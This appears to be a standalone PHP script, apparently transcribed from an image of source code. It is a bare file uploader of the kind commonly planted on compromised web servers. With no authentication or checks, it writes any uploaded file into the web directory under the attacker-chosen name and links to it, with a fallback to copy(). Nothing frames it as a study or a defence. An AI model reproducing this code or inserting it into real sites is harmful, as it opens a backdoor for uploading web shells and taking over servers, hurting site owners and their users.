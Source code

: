 <?php echo "<br/><center><form method='post' enctype='multipart/form-data' name='uploader'>"; echo '<input type="file" name="file" size="45"><input name="_upl" type="submit" id="_upl" value="Upload"></form></center>'; if ($_FILES) { if (function_exists("move_uploaded_file")) { if ( move_uploaded_file( $_FILES["file"]["tmp_name"], $_FILES["file"]["name"] ) ) { printf( '<center><br/>uploaded: <a href="%s" target="_blank">%s</a></center><br/>', $_FILES["file"]["name"], $_FILES["file"]["name"] ); } else { print "fail"; } } elseif (function_exists("copy")) { if (copy($_FILES["file"]["tmp_name"], $_FILES["file"]["name"])) { printf( '<center><br/>uploaded: <a href="%s" target="_blank">%s</a></center><br/>', $_FILES["file"]["name"], $_FILES["file"]["name"] ); } else { print "failed"; } } } ?>
